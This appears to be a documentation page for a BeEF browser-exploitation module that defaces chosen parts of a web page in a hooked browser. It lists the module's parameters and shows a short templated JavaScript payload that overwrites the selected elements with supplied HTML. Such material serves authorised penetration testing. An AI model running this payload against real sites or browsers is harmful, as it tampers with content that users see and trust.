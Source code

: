 ## Summary

* **Objective**: Replace content of a specific component of the page
* **Authors**: antisnatchor, xntrik
* **Browsers**: All
* **Parameters**: 
	* **Target Selector**: selector for the target element(s), in jQuery's selector notation.
	* **Deface Content**: the HTML content to replace original content with

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/deface_web_page_component)

## Internal Working

Replaces a selected component of the web page to the defaced content.

```js

var result = $j('<%= @deface_selector %>').each(function() {
                $j(this).html(decodeURIComponent(beef.encode.base64.decode('<%= Base64.strict_encode64(@deface_content) %>')););
        }).length;
```

## Feedback
